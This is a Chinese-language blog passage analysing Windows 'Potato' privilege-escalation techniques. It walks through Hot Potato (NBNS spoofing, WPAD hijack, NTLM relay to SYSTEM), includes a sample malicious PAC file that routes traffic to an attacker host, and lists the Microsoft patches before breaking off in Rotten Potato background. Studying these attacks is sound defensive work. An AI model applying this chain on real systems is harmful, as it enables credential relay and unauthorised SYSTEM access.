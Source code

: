 <h1>土豆提权</h1>
<p>本文对土豆家族中几个关键提权漏洞进行学习分析，注意是学习提权思路，poc具体细节以后有时间再分析。</p>
<h2>Hot Potato</h2>
<p>Hot Potato 即热土豆，是最初的土豆提权，在 2016 年由 <a href="https://x.com/breenmachine">@breenmachine</a> 披露，大致流程是：</p>
<ol>
<li>NBNS 欺骗</li>
<li>构造本地 HTTP，响应 WPAD</li>
<li>HTTP -&gt; SMB NTLM Relay</li>
<li>等待高权限进程的访问，即激活更新服务(低权限可激活)</li>
</ol>
<h3>利用过程</h3>
<h4>NBNS 欺骗</h4>
<p>NBNS 是 windows 下的命名查询服务，当 DNS 解析失败时，windows 就会尝试 NBNS 解析主机名，所以当 windows 找不到 WPAD 主机时，就会利用该服务进行解析，我们此时就可以构造虚假的数据包进行欺骗，从而进行中继攻击。</p>
<blockquote>
<p>注意：</p>
<ol>
<li>这里为了保证 dns 解析失败，使用了 UDP 端口耗尽技术，即攻击者可以伪造大量 DNS 响应包 ，并使用所有可能的源端口号进行响应，就会导致系统无法再分配新的端口用于 DNS 查询，从而我们的目标机器只能走 NBNS</li>
<li>攻击者为了对 NBNS 查询进行响应，还必须匹配数据包中 TXID 字段，不过该字段只有两字节，直接暴力发送即可</li>
</ol>
</blockquote>
<h4>构造本地 HTTP，响应 WPAD</h4>
<p>成功劫持 WPAD 之后，会向目标机器会返回一个自定义的 PAC 文件地址，（通常是 <a href="http://attacker_ip/wpad.dat%EF%BC%89">http://attacker_ip/wpad.dat）</a>，该 PAC 文件中指定浏览器将所有流量代理到攻击者的机器上。文件的示例如下：</p>
<pre><code class="language-javascript">function FindProxyForURL(url, host) {
    return &quot;PROXY attacker_ip:80&quot;;
}
</code></pre>
<h4>HTTP -&gt; SMB NTLM Relay</h4>
<p>当用户访问某些受保护资源（如本地共享目录）时，系统会自动发起 NTLM 认证。流量经过攻击者的代理服务器，攻击者可以截获这个认证过程，然后再将认证流量转发，成功后可以获得当前用户的高权限模拟令牌,本质就是个 ntlm relay 攻击</p>
<h4>等待高权限进程的访问</h4>
<p>Windows 更新服务（wuauserv）是以 SYSTEM 权限运行的，如果某个低权限用户能触发该服务进行网络访问（例如检查更新），它就会使用 SYSTEM 身份去访问网络资源，如果此时设置了代理为攻击者的机器，SYSTEM 用户就会向攻击者的 HTTP 服务发起 NTLM 认证请求 。</p>
<blockquote>
<p>注意：此漏洞利用并不稳定，有时需要等待 Windows 更新和 WPAD 缓存刷新几个小时。</p>
</blockquote>
<p>利用流程图如下所示：</p>
<p><img src="https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602103425-ibs2cb3.png" alt="image" /></p>
<h3>防御</h3>
<p>目前微软已打补丁，在 MS16-075（烂土豆） 上修补跨协议中继，针对 CVE-2016-3213 的 WPAD 解析也已修复，并且在请求 PAC 文件时不再发送凭据 (CVE-2016-3236)。</p>
<h2>Rotten Potato</h2>
<p>Rotten Potato 即烂土豆，同样在 2016 年由 <a href="https://x.com/breenmachine">@breenmachine</a> 披露，它的优点是立即触发，而不需要进行等待。</p>
<h3>前置知识</h3>
<ol>
<li>
<p>NTLM 是一种基于挑战-响应的身份验证协议，握手流程如下：</p>
<table>
<thead>
<tr>
<th>步骤</th>
<th>数据包类型</th>
<th>发送方</th>
</tr>
</thead>
<tbody>
<tr>
<td>1</td>
<td>NTLM_NEGOTIATE</td>